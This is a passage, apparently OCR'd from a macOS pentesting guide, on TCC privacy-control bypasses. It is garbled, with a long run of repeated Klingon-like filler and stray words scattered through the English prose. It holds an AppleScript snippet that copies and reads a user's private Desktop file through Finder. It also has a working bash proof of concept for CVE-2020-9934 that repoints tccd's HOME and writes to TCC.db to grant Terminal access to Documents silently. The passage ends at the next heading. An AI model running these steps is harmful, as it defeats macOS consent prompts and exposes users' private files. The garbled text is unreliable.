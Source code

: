 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' v
```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```
## By App behaviour

### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

**tccd daemon** jen using the **`HOME`** **env** variable to access the TCC users database from: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

[This Stack Exchange post](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) jen, je **tccd daemon** jen running via `launchd` within the current user’s domain, jen possible to **control all environment variables** passed to it.\
So, an **attacker jen set `$HOME` environment** variable in **`launchctl`** to point to a **controlled** **directory**, **restart** the **TCC** daemon, je then **directly modify the TCC database** to give itself **every TCC entitlement available** without ever prompting the end user.\
PoC:
```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump
$> sqlite3 TCC.db "INSERT INTO access
VALUES('kTCCServiceSystemPolicyDocumentsFolder',
'com.apple.Terminal', 0, 1, 1,
X'fade0c000000003000000001000000060000000200000012636f6d2e6170706c652e5465726d696e616c000000000003',
NULL,
NULL,
'UNUSED',
NULL,
NULL,
1333333333333337);"
# list Documents directory without prompting the end user
$> ls ~/Documents
```
### CVE-2021-30761 - Qap
